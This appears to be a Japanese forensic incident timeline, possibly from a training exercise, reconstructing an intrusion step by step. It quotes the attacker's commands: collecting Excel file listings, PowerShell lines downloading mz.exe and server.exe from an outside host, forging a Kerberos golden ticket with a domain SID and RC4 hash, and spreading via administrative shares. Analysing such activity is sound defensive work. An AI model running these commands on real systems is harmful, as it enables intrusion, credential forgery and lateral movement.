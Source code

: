 
* 2019/11/7  15:54:06 各ユーザのエクセルファイルを収集していた
```
 cmd /c "dir C:\Users\*.xls* /s /o-d > C:\Intel\Logs\gg.txt"
```

* gg.txtに保存された.

#### ◇ ネットワークの探索?
* 2019/11/7  15:54:51 から192.168.16.105及び106へのpingが実行されていた

#### ◇ z.ps1の作成
* 2019/11/7  15:56:03 z.ps1が作成された。
```
cmd /c "echo $p = New-Object System.Net.WebClient > C:\Intel\Logs\z.ps1"
```
* webClientを利用するようだ

#### ◇ z.ps1へのダウンロード先を指定
* 2019/11/7  15:56:28 mz.exeをダウンロードする準備だと思われる。
```
cmd /c "echo $p.DownloadFile("http://anews-web.co/mz.exe", "C:\Intel\Logs\mz.exe") >> C:\Intel\Logs\z.ps1"
```

#### ◇ mz.exeを用いたゴールデンチケットの作成
* 2019/11/7  15:57:28 mz.exeを用いてgoldenチケットを作成または、使用した
* exsample.co.jpドメインのsysg.adminユーザのゴールデンチケットが使用または、作成された。

```
cmd /c "C:\Intel\Logs\mz.exe "kerberos::golden /domain:example.co.jp /sid:S-1-5-21-1524084746-3249201829-3114449661 /rc4:b23a3443a12bf736973741f65ddcbc83 /user:sysg.admin /id:500 /ticket:C:\Intel\Logs\500.kirbi" exit"
```

#### ◇ Win7_64JP_03の管理共有の利用
* 2019/11/7  15:59:37 Win7_64JP_03の管理共有の利用

```
cmd /c "net use \\Win7_64JP_03\c$"
```

#### ◇ s.ps1の作成、実行
* 2019/11/7  16:01:14 s.ps1が作成された。
```
cmd /c "echo $p.DownloadFile("http://anews-web.co/server.exe", "C:\Intel\Logs\server.exe") >> C:\Intel\Logs\s.ps1"
```
* s.ps1は、ウェブサイトから`server.exe`をダウンロードするスクリプトのようだ。

* 2019/11/7  16:03:23 s.ps1が実行された。
#### ◇ Win7_64JP_03へのserver.exeの設置
* 2019/11/7  16:03:41 管理者共有を用いたWin7_64JP_03へのserver.exeの設置
```
cmd /c "copy C:\Intel\Logs\server.exe \\Win7_64JP_03\c$\Intel\Logs\server.exe"
```
